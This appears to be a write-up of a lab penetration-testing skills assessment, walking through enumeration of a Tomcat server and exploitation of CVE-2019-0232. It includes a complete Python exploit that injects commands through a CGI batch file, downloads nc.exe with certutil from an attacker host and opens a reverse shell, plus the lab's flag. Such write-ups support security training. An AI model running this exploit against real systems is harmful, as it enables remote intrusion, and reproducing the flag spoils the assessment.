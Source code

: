 # Attacking Common Applications - Skills Assessment I

During a penetration test against the company Inlanefreight, you have performed extensive enumeration and found the network to be quite locked down and well-hardened. You come across one host of particular interest that may be your ticket to an initial foothold. Enumerate the target host for potentially vulnerable applications, obtain a foothold, and submit the contents of the flag.txt file to complete this portion of the skills assessment.

**Questions**

What vulnerable application is running?

```bash
sudo nmap -sS -n -Pn -p- --min-rate 5000 10.129.201.89 -sV -sC 
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Freight Logistics, Inc
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=APPS-SKILLS1
| Not valid before: 2024-03-10T15:17:04
|_Not valid after:  2024-09-09T15:17:04
|_ssl-date: 2024-03-11T15:20:15+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8000/tcp  open  http          Jetty 9.4.42.v20210604
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.42.v20210604)
8009/tcp  open  ajp13         Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0

tomcat
```

What port is this application running on?

```
8080
```

What version of the application is in use?

```bash
curl -s http://10.129.201.89:8080/docs/ | grep Tomcat
<title>Apache Tomcat 9 (9.0.0.M1)
```

Exploit the application to obtain a shell and submit the contents of the flag.txt file on the Administrator desktop.

```bash
ffuf -w /usr/share/wordlists/dirb/common.txt:FUZZ -u http://10.129.201.89:8080/cgi/FUZZ.bat
#cmd                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 280ms]
http://10.129.201.89:8080/cgi/cmd.bat?&dir
http://10.129.201.89:8080/cgi/cmd.bat?&dir+C:\Users\Administrator\Desktop
#we know the flag is there, but cant use type command
```

we try this reverse shell script

```python
#https://github.com/jaiguptanick/CVE-2019-0232
#!/usr/bin/env python3
import time
import requests
host='10.129.201.89'#add host to connect
port='8080'#add port of host {default:8080}
server_ip='10.10.15.102'#server that has nc.exe file to get reverse shell
server_port='80'
nc_ip='10.10.15.102'
nc_port='4444'
url1 = host + ":" + str(port) + "/cgi/cmd.bat?" + "&&C%3a%5cWindows%5cSystem32%5ccertutil+-urlcache+-split+-f+http%3A%2F%2F" + server_ip + ":" + server_port + "%2Fnc%2Eexe+nc.exe"
url2 = host + ":" + str(port) + "/cgi/cmd.bat?&nc.exe+" + server_ip + "+" + nc_port + "+-e+cmd.exe"
try:
    requests.get("http://" + url1)
    time.sleep(2)
    requests.get("http://" + url2)
    print(url2)
except:
    print("Some error occured in the script")
```

and we got reverse shell, nice!

```bash
type C:\Users\Administrator\Desktop\flag.txt
f55763d31a8f63ec935abd07aee5d3d0
```
